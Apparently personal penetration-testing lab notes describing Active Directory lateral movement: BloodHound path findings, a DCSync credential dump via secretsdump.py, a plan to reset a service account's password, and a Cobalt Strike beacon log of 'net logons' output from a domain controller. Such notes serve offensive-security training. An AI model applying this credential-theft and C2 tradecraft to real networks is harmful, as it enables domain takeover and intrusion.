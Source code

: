 utilizing `Bloodhound` revealed that `SVC_DEVOPS@CORP.LOCAL` is a local administrator on `WS03.DEV.ADMIN.OFFSHORE.COM` and also a part of `CORP.LOCAL` which we have `DA` for with the `IAMTHEADMINISTRATOR` account 
![[Pasted image 20240109151142.png]]![[Pasted image 20240109151253.png]]
going to look back at `secretsdump.py` DCSYNC to see if I have credentials to `SVC_DEVOPS@CORP.local`
according to previous notes, svc_devops user was found on ms01, going to look at crto notes to find what computer in a domain that a user is on

ran `net logons` and see that svc_devops is in it, going to try to change svc_devops password
```powershell
[01/09 15:23:31] beacon> net logons
[01/09 15:23:31] [*] Tasked beacon to run net logons on localhost
[01/09 15:23:33] [+] host called home, sent: 106292 bytes
[01/09 15:23:43] [+] received output:
Logged on users at \\localhost:


[01/09 15:23:52] [+] received output:
CORP\iamtheadministrator
CORP\DC01$
CORP\DC01$
CORP\DC01$

[01/09 15:24:16] [+] received output:





[01/09 15:24:22] [+] received output:
UserDomain      : 


[01/09 15:24:25] [+] received output:
UserName        : Administrator

ComputerName    : DC01.corp.local


[01/09 15:24:28] [+] received output:
SessionFrom     : 127.0.0.1

SessionFromName : DC01.corp.local


[01/09 15:24:32] [+] received output:
LocalAdmin      : 




[01/09 15:24:40] [+] received output:
UserDomain      : CORP


[01/09 15:24:43] [+] received output:
UserName        : iamtheadministrator

ComputerName    : DC01.corp.local


[01/09 15:24:47] [+] received output:
IPAddress       : 172.16.1.5
```